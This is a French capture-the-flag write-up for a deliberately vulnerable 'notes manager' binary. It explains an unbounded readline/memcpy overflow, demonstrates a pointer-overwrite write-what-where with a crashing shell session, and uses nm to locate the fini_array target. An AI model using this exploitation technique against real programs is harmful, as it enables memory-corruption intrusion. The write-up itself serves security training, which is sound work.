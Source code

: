 Le programme récupère un buffer via `readline()` puis un `memcpy()` est utilisé pour le recopier dans la note avec en taille le résultat du `strlen()`. Comme `readline()` n'est pas borné alors la recopie non plus.

## Exploit 101

Du coup la technique d'exploitation sera la suivante :

- créer une première note vide (note 0)

- créer une seconde note vide (note 1)

- écrire dans la note 0 pour écraser le pointeur vers la chaine de caractère dans la note 1 par une adresse de notre choix

- écrire dans la note 1 qui permettra d'écrire à l'adresse que l'on a écrasé

C'est un write-what-where.

Soit dans la pratique :

```shellsession
level1@pb0x:/home/level1$ ./level2 
[*] Notes manager - 1.0
[*] Type help for the command list
> new
[*] New note created with id 0
> new
[*] New note created with id 1
> set 
> id: 0
> text(32 max): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[*] Note 0 set
> set
> id: 1
> text(32 max): nawak
Segmentation fault (core dumped)
level1@pb0x:/home/level1$ dmesg | tail -1
[64445.295726] level2[10442]: segfault at 41414141 ip b769b096 sp bfdf8c28 error 6 in libc-2.15.so[b7560000+1a4000]
```

On voit que l'on a bien un segfault car on a tenté d'écrire à l'adresse `0x41414141` correspondant à nos `A`.

C'est bien beau tout ça mais on écrase quoi par quoi ?

Quand on affiche les adresses de symboles du programme avec `nm` on trouve notamment `__do_global_dtors_aux_fini_array_entry` :

```shellsession
$ nm level2 
0804a3b0 A __bss_start
         U bzero@@GLIBC_2.0
0804a3e4 b completed.5730
08048821 T create_struct
0804a3a8 D __data_start
0804a3a8 W data_start
08048690 t deregister_tm_clones
08048700 t __do_global_dtors_aux
0804a260 d __do_global_dtors_aux_fini_array_entry
0804a3ac D __dso_handle
--- snip ---
08048779 T show_help
0804874c T show_welcome
080488dd T slot_exists
08048660 T _start
0804a3c0 B stdin@@GLIBC_2.0
```